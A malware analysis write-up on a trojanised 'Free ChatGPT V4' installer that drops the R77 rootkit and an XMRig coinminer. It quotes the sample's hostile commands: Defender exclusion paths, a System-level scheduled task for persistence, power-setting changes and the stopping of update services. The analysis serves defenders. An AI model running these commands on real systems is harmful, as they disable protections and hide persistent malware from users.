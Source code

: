 ```yaml
---
tags: Trojans
---
```

## Investigating A Fake Trojanised ChatGPT Application

This sample is a trojanised ChatGPT installer which can be downloaded as an .msi file from SourceForge. It masquerades as a Free ChatGPT 4 binary but utilises the R77 rootkit to deploy XMRig coinminer malware.


![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7dd1c425-3a00-49f9-871f-4fa5394e152c)

During installation, the directory 'C:\Program Files (x86)\OpenAI' is created, and process 'C:\Program Files (x86)\OpenAI\Chatgpt Desktop V4\Free Chatgpt V4\Free Chatgpt V4.exe' is executed.

This process spawns cmd.exe with the following command line:
```
C:\Windows\system32\cmd.exe /c "powershell.exe "Add-MpPreference -ExclusionPath “C:\Windows\Temp”,“C:/”,“.exe”""
```
This command will exclude any executables in the path "C:\Windows\Temp" from being looked at by Windows Defender, this is highly suspicious and indicates that something malicious is likely residing in the Temp directory.

Turning our attention to the Temp directory, we observe the following file creation event for the executable "Free Chatgpt V4.exe"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/231c750a-27e8-4481-8cd0-9a40e7edc0dd)

Upon execution of the main ChatGPT binary,a binary of the same name 'Free Chatgpt V4.exe' in the Temp directory is executed silently. The same binary also exists as 'C:\Program Files\Google\Chrome\Googleupdater.exe'.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6453e05-2b36-4c3d-b9fe-783443a73bc2)

The binaries present at 'C:\Program Files\Google\Chrome\Googleupdater.exe' and 'C:\Windows\Temp\Free Chatgpt V4.exe' are R77 rootkits

R77’s primary purpose is to hide the presence of other software on a system, making it ideal in this case to hide elements of coin miner malware.

Further commands of interest were identified, but it's difficult to gather further context surrounding them likely due to the nature of the R77 rootkit.

_A scheduled task called "GoogleUpdateXQ" is created as a persistence mechanism to execute the rookit_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe <#sednnxbeh#> IF([System.Environment]::OSVersion.Version -lt [System.Version]"6.2") { schtasks /create /f /sc onlogon /rl highest /ru 'System' /tn 'GoogleUpdateXQ' /tr '''C:\Program Files\Google\Chrome\Googleupdater.exe''' } Else { Register-ScheduledTask -Action
(New-ScheduledTaskAction -Execute 'C:\Program Files\Google\Chrome\Googleupdater.exe') -Trigger (New-ScheduledTaskTrigger -AtStartup) -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DisallowHardTerminate -DontStopIfGoingOnBatteries -DontStopOnIdleEnd -ExecutionTimeLimit (New-TimeSpan -Days 1000)) -
TaskName 'GoogleUpdateXQ' -User 'System' -RunLevel 'Highest' -Force; }
```

_The scheduled task is executed directly via command line_
```
C:\Windows\System32\schtasks.exe /run /tn "GoogleUpdateXQ"
```


_A command is executed which manipulates sleep functions on the host, which is a technique leveraged by coin-mining malware_
```
C:\Windows\System32\cmd.exe /c powercfg /x -hibernate-timeout-ac 0 & powercfg /x -hibernate-timeout-dc 0 & powercfg /x -standby-timeout-ac 0 & powercfg /x -standby-timeout-dc 0
```

_Legitimate Windows services are stopped, this is another indication of coin miner malware_
```
C:\Windows\System32\cmd.exe /c sc stop UsoSvc & sc stop WaaSMedicSvc & sc stop wuauserv & sc stop bits & sc stop dosvc
```

_Further Windows Defender exclusion paths are added_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-MpPreference -ExclusionPath @($env:UserProfile, $env:ProgramFiles) -Force
```

These commands are a strong indication of coin-miner malware, and are similar to samples such as:

[https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de](https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de)

[https://www.joesandbox.com/analysis/1279914/0/lighthtml](https://www.joesandbox.com/analysis/1279914/0/lighthtml)

_Basic Execution Flow_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e48d185e-6604-44bd-aafd-ebe3d87e23eb)



